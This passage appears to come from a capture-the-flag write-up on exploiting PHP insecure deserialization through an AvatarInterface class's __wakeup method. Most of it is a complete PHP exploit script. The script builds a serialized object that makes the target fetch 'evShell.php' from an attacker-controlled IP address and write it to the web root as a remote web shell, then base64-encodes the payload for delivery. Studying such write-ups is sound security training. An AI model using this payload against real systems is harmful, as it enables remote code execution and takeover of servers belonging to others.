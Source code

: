 ```php
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

Here the `AvatarInterface` class has 
- an `$imgpath` parameter - used as the path where to save a file
- a `$tmp` parameter - containing the contents to be written in the path provided by `$imgpath`
- `__wakeup` - [php magic method](https://www.php.net/manual/en/language.oop5.magic.php) which creates a new instance of `Avatar` class and a class save method for the the avatar class

Theoretically if we could set the `$tmp` var to our server hosting a PHP shell, then set `$imgpath` to the filename of the php shell, it should store it on the server & we could trigger it by just visiting it

```php
<?php

class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
        $this->theme = $theme;
    }
}


class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.124/evShell.php";
    public $imgPath = "./evShell.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

echo base64_encode(serialize(new AvatarInterface));
?>
```
